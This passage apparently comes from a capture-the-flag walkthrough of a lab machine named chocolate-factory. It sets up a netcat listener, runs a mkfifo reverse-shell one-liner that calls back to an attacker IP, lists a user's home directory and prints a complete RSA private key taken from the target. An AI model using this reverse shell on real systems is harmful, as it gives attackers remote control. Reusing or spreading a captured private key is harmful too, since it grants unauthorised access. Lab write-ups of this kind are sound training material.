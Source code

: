 Let's get a reverse shell :)
```shell-session
## On our machine:
$ nc -nvlp 4444
```

I'll use a simple `nc mkfifo` reverse shell payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.5.201 4444 >/tmp/f
```

Let's check what charlie's got for us:
```shell-session
www-data@chocolate-factory:/var/www/html$ ls -la /home/charlie
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
www-data@chocolate-factory:/var/www/html$ file /home/charlie/teleport*
/home/charlie/teleport:     PEM RSA private key
/home/charlie/teleport.pub: OpenSSH RSA public key
```

I'll `cat` this stuff and paste to a file on my sys, but here's the contents:

`teleport`:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
```
